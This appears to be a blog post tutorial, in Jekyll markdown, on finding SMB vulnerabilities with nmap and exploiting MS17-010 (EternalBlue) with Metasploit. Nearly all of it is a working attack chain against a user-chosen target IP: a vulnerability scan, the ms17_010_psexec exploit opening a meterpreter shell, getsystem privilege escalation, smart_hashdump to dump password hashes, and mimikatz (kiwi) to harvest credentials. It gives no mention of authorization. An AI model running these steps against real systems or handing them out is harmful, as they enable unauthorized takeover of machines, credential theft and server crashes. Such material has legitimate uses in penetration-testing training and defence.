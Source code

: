 ```yaml
---
layout: post
title: How to find SMB vulnerabilities with nmap & exploiting ms17-010
featured-img: WannaCry-ransom
categories: Guides nmap hacking ms17-010 smb1
mathjax: true
---
```


## How to use the Nmap Scripting Engine to test for SMB vulnerabilities:

Run `nmap --script  vuln -p139,445 192.168.0.18` from your terminal. Change 192.168.0.18 to your target's IP address.

![example command](../assets/nmap/nmap1.jpg)

The result is `Vulnerable` to ms17-010 or CVE-2017-0143 - AKA EternalBlue which was used by the WannaCry ransomware. This exploit allows an attacker to gain full control of a server/computer hosting a share using SMBv1.


## Exploiting the found vulnerability (ms17-010):

Open metasploit `msfconsole`
type `search ms17-010`

![](../assets/nmap/msfconsole.jpg)

As you can see, there are a few modules found.
Let's confirm our nmap finding with the metasploit scanner:

    `use scanner/smb/smb_ms17_010`

    `set rhosts 192.168.0.18` - change 192.168.0.18 to your target's IP address.

    `run`

![](../assets/nmap/smbms17010.png)

We have now confirmed the machine is vulnerable and that it is a Windows Server 2008 R2.
If we go back to our list of modules, Metasploit has a few exploits available.

![](../assets/nmap/msfconsole.jpg)

I tried All and `ms17_010_psexec` was the only successful one. The other were not compatible or immediately bluescreened the server.

![](../assets/nmap/disconnect.png)

To use this exploit, type:

    `use windows/smb/ms17_010_psexec` hit enter

    `set LPORT 4445` switch to whatever you want. This is the port where you will be listening for the meterpreter connection.

    `exploit`

![](../assets/nmap/shell.png)

We got a shell on the remote system.

From here you can escalate privileges if necessary:

    `getuid` - if you are not SYSTEM run `getsystem`

If successful, then you can do `run smart_hashdump` and get all users and their password hashes. Metasploit automatically saves them to /root/.msf4/loot/ where you can crack them later.

![](../assets/nmap/smart_hashdump.png)

You can also run mimikatz at this point:

    `use kiwi`
    `creds_all`

![](../assets/nmap/credskiwi.png)

When I tried creds_msv the server crashed.

![](../assets/nmap/creds_msvcrash.png)

